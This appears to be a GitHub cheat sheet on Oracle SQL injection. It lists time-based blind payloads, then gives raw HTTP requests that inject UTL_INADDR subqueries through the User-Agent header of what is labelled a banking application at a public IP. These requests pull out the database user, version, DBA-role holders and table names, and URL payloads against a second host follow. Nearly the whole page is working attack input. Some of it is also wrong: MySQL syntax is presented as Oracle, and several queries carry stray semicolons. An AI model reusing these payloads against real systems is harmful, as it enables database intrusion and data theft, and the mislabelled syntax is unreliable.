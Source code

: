 # Real world example of Oracle SQL Injection

The **UTL_INADDR** package provides a PL/SQL procedures to support internet addressing.It provides an API to retrieve host names and IP addresses of local and remote hosts retrieving host names and IP addresses of remote hosts from PL/SQ It contains two functions which return the server machine name and its IP address. 
When an Web application is being used Oracle Database. there is only possible to perform  SQL Injection PL/SQL Syntax Like **IF condition THEN when_true [ELSE when_false]**
IF (1=1) THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END

# Basic Oracle Blind SQL Injection Payloads
```
1' and if(1=1, sleep(20), true)#
1' or if(1=1, sleep(20), true)#
1' and if(1=1, sleep(20), false)#
1' or if(1=1, sleep(20), true)#
1' and if(1=1, sleep(20), true) -- -
1' or if(1=1, sleep(20), true) -- -
1' and if(1=1, sleep(20), false) -- -
1' or if(1=1, sleep(20), true) -- -
```
# Real world example of Oracle SQL Injection 
```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select user from dual))--+) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```

```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select banner from v$version where rownum=1))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select username FROM user_role_privs WHERE granted_role='DBA';))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1

```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select owner, table_name FROM all_tables;))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```


```
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT global_name FROM global_name;) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT * FROM session_privs;(Retrieves Current Privs)) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT global_name FROM global_name;) )--
```
